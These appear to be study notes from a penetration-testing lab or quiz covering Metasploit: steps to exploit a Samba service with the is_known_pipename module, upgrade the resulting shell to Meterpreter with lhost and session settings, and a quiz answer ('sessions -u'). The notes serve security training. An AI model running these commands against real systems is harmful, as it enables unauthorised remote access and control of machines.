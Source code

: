 * PRACTICAL
* Repeat steps until db_nmap
* `search type:exploit samba`
* `use exploit/linux/samba/is_known_pipename`
* `run`
* CTRL+Z --> y
* `search shell_to_meterpreter`
* `use post/multi/manage/shell_to_meterpreter`
* `set lhost [IP]`
* `set session [id]`
* `run`
* `sessions`
* `session[ID of the meterpreter]`

* Which one of the following Msfconsole commands can be used to upgrade a command shell to a meterpreter shell automatically?
  * sessions -u
